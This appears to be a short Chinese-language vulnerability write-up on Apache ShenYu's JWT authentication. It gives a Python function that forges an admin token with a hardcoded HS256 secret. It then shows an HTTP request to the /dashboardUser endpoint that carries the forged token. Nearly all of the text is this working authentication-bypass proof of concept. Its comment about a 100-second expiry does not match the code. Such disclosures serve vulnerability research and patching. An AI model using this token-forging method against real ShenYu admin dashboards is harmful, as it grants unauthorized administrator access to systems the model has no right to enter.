 #  apache-shenyu-authentication
#  Apache-ShenYu JWT认证缺陷

```php
def generateToken(username):
    headers = {
        "alg": "HS256",
        "typ": "JWT"
    }
    # 设置headers，即加密算法的配置
    salt = "2095132720951327"
    # 随机的salt密钥，只有token生成者（同时也是校验者）自己能有，用于校验生成的token是否合法
    exp = int(time.time())
    # 设置超时时间：当前时间的100s以后超时
    payload = {
        "userName": username,
        "exp": exp
    }
    # 配置主体信息，一般是登录成功的用户之类的，因为jwt的主体信息很容易被解码，所以不要放敏感信息
    # 当然也可以将敏感信息加密后再放进payload

    token = jwt.encode(payload=payload, key=salt,
                       algorithm='HS256', headers=headers).decode('utf-8')
    # 生成token
    # print(token)
    return token

```

![image](https://user-images.githubusercontent.com/27684409/142589943-5e80b7dd-85e9-4c3a-8198-fa66e74717b7.png)

```php

GET /dashboardUser HTTP/1.1
Host: 192.168.1.72:9095
Pragma: no-cache
Cache-Control: no-cache
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6ImFkbWluIiwiZXhwIjoxNjM3Mzk1NTY2fQ.7V82J9pQFMZuaA9OkLlSa4ylsOwNBRJkzqf2cl_mroE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: */*
Connection: close

```
